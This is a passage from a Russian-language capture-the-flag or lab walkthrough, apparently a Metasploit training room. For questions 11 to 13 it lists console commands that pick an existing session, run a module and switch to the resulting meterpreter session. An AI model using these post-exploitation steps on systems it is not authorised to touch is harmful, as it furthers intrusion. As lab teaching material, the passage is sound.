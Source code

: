 Нам нужно установить номер УЖЕ СУЩЕСТВУЮЩЕЙ сессии!

### Question 11: Set the required option, you may need to list all of the sessions to find your target here. 
Список активных сессий можно посмотреть следующей командой:
```sh
sessions -l
```
![ScreenShot](screenshots/11.png)

Устанавливаем необходимую сессию через команду:
```sh
set SESSION 1
```

### Question 12: Run! If this doesn't work, try completing the exploit from the previous task once more.
Запускаем:
```sh
run
```

### Question 13: Once the meterpreter shell conversion completes, select that session for use.
Проверяем наличие новой сессии:
```sh
sessions -l
```
![ScreenShot](screenshots/12.png)

Запускаем новую сессию:
```sh
sessions 2
```
![ScreenShot](screenshots/13.png)
